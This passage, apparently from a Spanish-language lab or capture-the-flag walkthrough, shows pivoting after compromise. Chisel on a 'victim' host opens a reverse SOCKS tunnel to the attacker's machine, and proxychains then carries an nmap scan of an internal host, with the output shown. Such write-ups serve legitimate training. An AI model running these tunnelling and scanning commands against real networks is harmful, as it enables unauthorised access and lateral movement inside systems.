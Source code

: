 ```bash

```

En nuestra maquina de atacante vamos a correr el `chisel` en modo servidor

```bash
❯ ./chisel server --reverse -p 1234
2023/04/03 13:24:20 server: Reverse tunnelling enabled
2023/04/03 13:24:20 server: Fingerprint KmK4WtGmNMeFZ4qf6xYWobbWjCfAdi2Ec94nItryu+8=
2023/04/03 13:24:20 server: Listening on http://0.0.0.0:1234
```

Ahora en la maquina victima nos vamos a poner como modo cliente para traernos todo los puertos

```bash
bash-5.0# ./chisel client 192.168.1.94:1234 R:socks
```

Nos lo pone en el  puerto `1080`

```bash
❯ ./chisel server --reverse -p 1234
2023/04/03 13:24:20 server: Reverse tunnelling enabled
2023/04/03 13:24:20 server: Fingerprint KmK4WtGmNMeFZ4qf6xYWobbWjCfAdi2Ec94nItryu+8=
2023/04/03 13:24:20 server: Listening on http://0.0.0.0:1234
2023/04/03 13:26:48 server: session#1: tun: proxy#R:127.0.0.1:1080=>socks: Listening
```

Asegurate de tener esto asi

```bash
❯ catn /etc/proxychains.conf | tail -n 2
# socks4 	127.0.0.1 9050
socks5 127.0.0.1 1080
```

Ahora tenemos que usar `proxychains` para pasar por el tunel

## PortScan Joestar

```bash
❯ proxychains nmap -sT -Pn --open -T5 -v -n 10.10.0.129 2>/dev/null
ProxyChains-3.1 (http://proxychains.sf.net)
Starting Nmap 7.93 ( https://nmap.org ) at 2023-04-03 13:31 CST
Initiating Connect Scan at 13:31
Scanning 10.10.0.129 [1000 ports]
Discovered open port 53/tcp on 10.10.0.129
Discovered open port 110/tcp on 10.10.0.129
Discovered open port 143/tcp on 10.10.0.129
Discovered open port 80/tcp on 10.10.0.129
Discovered open port 22/tcp on 10.10.0.129
Discovered open port 10001/tcp on 10.10.0.129
Completed Connect Scan at 13:31, 4.98s elapsed (1000 total ports)
Nmap scan report for 10.10.0.129
Host is up (0.0046s latency).
Not shown: 994 closed tcp ports (conn-refused)
PORT      STATE SERVICE
22/tcp    open  ssh
53/tcp    open  domain
80/tcp    open  http
110/tcp   open  pop3
143/tcp   open  imap
10001/tcp open  scp-config

```
